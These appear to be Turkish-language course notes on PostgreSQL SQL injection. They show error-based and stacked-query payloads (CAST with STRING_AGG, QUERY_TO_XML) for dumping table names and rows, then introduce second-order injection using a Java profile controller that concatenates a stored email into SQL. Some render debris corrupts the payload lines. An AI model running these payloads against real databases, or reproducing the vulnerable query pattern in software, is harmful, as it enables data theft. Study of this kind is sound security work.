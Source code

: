 ```sql
' and 1=CAST((SELECT STRING_AGG(table_name,',') FROM information_schema.tables LIMIT 1) as INT)[email]
```


Hedeflediğiniz belirli SQL enjeksiyonu güvenlik açığında sorguları stack etmek mümkünse, bunun gibi tüm tabloları veya veritabanlarını bir kerede dump etmek için [XML fonksiyonlarını](https://www.postgresql.org/docs/9.4/functions-xml.html) bile kullanabilirsiniz:

```sql
';SELECT CAST(CAST(QUERY_TO_XML('SELECT * FROM posts LIMIT 2',TRUE,TRUE,'') AS TEXT) AS INT)[email protected]
```

![Pasted image 20250428201414.png](/img/user/resimler/Pasted%20image%2020250428201414.png)

# Second-Order SQL Injection

## Introduction

Second-order SQL injection, kullanıcı inputunun uygulama tarafından depolandığı ve daha sonra bir SQL sorgusunda güvenli olmayan bir şekilde kullanıldığı bir SQL injection türüdür. Bu tür bir güvenlik açığını tespit etmek daha zor olabilir, çünkü genellikle verileri depolamak ve daha sonra kullanmak için ayrı uygulama işlevleriyle etkileşim gerektirir.


## /profile içindeki SQL enjeksiyonunu genişletme

Bu bölümde, Identifying Vulnerabilities bölümlerinde tespit ettiğimiz üçüncü SQLi zafiyetine daha yakından bakacağız:

```java
// ProfileController.java

@GetMapping({"/profile/{id}"})
public String profile(@PathVariable int id, Model model, HttpServletResponse response) throws IOException {
    String sql;
    User user;
    try {
        sql = "SELECT username, name, description, email, id FROM users WHERE id = ?";
        user = (User)this.jdbcTemplate.queryForObject(sql, new Object[]{id}, new BeanPropertyRowMapper(User.class));
    } catch (Exception var8) {
        response.sendRedirect("/");
        return null;
    }

    sql = "SELECT text, to_char(posted_at, 'dd.mm.yyyy, hh:mi') as posted_at_nice, username, name, author_id FROM posts JOIN users ON posts.author_id = users.id WHERE email = '" + user.getEmail() + "' ORDER BY posted_at DESC";
    List posts = this.jdbcTemplate.queryForList(sql);
    model.addAttribute("user", user);
    model.addAttribute("posts", posts);
    UserDetailsImpl userDetails = (UserDetailsImpl)SecurityContextHolder.getContext().getAuthentication().getPrincipal();
    model.addAttribute("userDetails", userDetails);
    return "profile";
}
```
